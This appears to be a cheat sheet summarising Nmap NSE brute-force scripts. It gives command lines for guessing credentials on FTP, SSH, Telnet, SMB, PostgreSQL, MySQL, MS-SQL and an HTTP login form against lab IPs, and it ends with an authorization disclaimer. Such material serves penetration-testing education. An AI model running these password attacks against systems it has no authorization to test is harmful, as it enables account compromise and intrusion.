 # 🔑 Nmap's NSE Scripts for Ethical Password Testing

&#x20;Nmap is a powerful network scanning and reconnaissance tool, and its NSE scripts can automate a wide range of tasks, including brute-force attacks to guess authentication credentials. Here's a summary of what you've shared:

Nmap's NSE scripts allow users to perform dictionary brute-force attacks on secured services. Some of the services covered include:

1.  **FTP Password Cracking** Using the `ftp-brute.nse` script to perform brute-force password auditing against FTP servers. Example:

    ```
    nmap -p21 --script ftp-brute.nse --script-args userdb=users.txt,passdb=pass.txt 192.168.1.150
    ```
2.  **SSH Password Cracking** Using the `ssh-brute.nse` script to perform brute-force password guessing against SSH servers. Example:

    ```
    nmap -p22 --script ssh-brute.nse --script-args userdb=users.txt,passdb=pass.txt 192.168.1.150
    ```
3.  **Telnet Password Cracking** Using the `telnet-brute.nse` script to perform brute-force password auditing against Telnet servers. Example:

    ```
    nmap -p23 --script telnet-brute.nse --script-args userdb=users.txt,passdb=pass.txt 192.168.1.150
    ```
4.  **SMB Password Cracking** Using the `smb-brute.nse` script to attempt to guess SMB username/password combinations. Example:

    ```
    nmap -p445 --script smb-brute.nse --script-args userdb=users.txt,passdb=pass.txt 192.168.1.150
    ```
5.  **Postgres Password Cracking** Using the `pgsql-brute` script to perform brute-force password auditing against PostgreSQL servers. Example:

    ```
    nmap -p5432 --script pgsql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.1.150
    ```
6.  **MySQL Password Cracking** Using the `mysql-brute` script to perform brute-force password auditing against MySQL servers. Example:

    ```
    nmap -p3306 --script mysql-brute --script-args userdb=users.txt 192.168.1.150
    ```
7.  **HTTP-form Password Cracking** Using the `http-form-brute` script to perform brute-force password auditing against HTTP form-based authentication. Example:

    ```
    nmap -p80 --script=http-form-brute --script-args "userdb=users.txt,passdb=pass.txt,http-form-brute.path=/dvwa/login.php" 192.168.1.150
    ```
8.  **Ms-SQL Password Cracking** Using the `ms-sql-brute` script to perform brute-force password auditing against Microsoft SQL servers. Example:

    ```
    nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.1.146
    ```

Please note that while Nmap's NSE scripts can be useful for security professionals and ethical hackers in testing the security of systems, it's essential to ensure that you have proper authorization and are abiding by relevant laws and regulations before performing any security testing or penetration testing activities. Unauthorized access or malicious use of these techniques can lead to legal consequences.
